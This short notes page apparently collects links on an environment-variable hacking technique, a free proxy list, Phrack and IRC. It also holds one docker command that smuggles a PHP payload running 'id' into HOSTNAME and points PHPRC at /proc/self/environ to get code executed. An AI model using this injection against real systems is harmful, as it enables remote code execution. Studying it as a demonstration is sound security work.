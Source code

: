 x
-

[env var hack](https://www.elttam.com/blog/env/)
[proxy](https://geonode.com/free-proxy-list/)
[phrack](http://phrack.org/issues/49/14.html#article)
[chat](https://tools.ietf.org/html/rfc1459)

````sh
docker run -e $'HOSTNAME=1;\nauto_prepend_file=/proc/self/environ\n;<?php die(`id`); ?>' \
  -e 'PHPRC=/proc/self/environ' php:7.3 php /dev/null
````

